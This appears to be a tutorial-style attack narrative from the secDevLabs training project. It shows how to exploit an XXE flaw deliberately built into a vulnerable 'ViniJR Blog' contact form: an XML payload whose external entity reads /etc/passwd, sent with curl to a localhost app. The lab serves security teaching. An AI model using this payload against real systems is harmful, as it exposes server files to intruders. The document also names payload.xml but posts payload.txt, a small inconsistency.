


# Attack Narrative - ViniJR Blog (XXE)

The main goal of this documentation is to describe how a malicious user could exploit a XXE vulnerability intentionally installed on ViniJR Blog from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a4/vinijr-blog) yet, you should check them before reading this narrative.

----

## 👀

After reviewing the inputs from the app, it is possible to identify that the section "GET IN TOUCH" allows users send messages to the server, as shown in the following picture:


Using [Burp Suite](https://portswigger.net/burp) proxy to intercept this request (POST to contact.php) reveals that the message is being build using an XML:


To replicate this POST using [curl](https://curl.haxx.se/), create the following file `payload.xml`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And run:

```sh
curl -d @payload.txt localhost:10080/contact.php ; echo
```

By checking the source code of the [file](../app/contact.php), it is possible to see how this XML is loaded on the server side:



## 🔥

As no validation is being used to avoid [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) being sent to the PHP file, an attacker could create the following `evilxml.txt` to perform a XXE:

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And, as the following picture shows, it is possible to realize that the attack succeeds and sensitive information is retrieved from the server that is hosting the vulnerable app:

```sh
curl -d @evilxml.txt localhost:10080/contact.php ; echo
```


